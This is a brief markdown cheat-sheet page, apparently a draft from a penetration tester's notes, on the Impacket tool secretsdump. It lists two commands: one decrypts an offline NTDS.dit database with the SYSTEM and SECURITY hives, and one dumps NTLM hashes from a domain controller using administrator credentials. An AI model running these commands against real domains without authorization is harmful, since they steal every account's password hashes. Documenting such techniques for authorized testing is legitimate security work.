 ```yaml
---
title: "Secretsdump"
date: 2020-07-16T13:41:37+02:00
draft: true
---
```


#### Decrypt NTDS
```bash
secretsdump.py -system SYSTEM -security SECURITY -ntds ntds.dit local
```

#### Dumping DC hashes
```bash
secretsdump.py -just-dc-ntlm offense/administrator@10.0.0.6
```

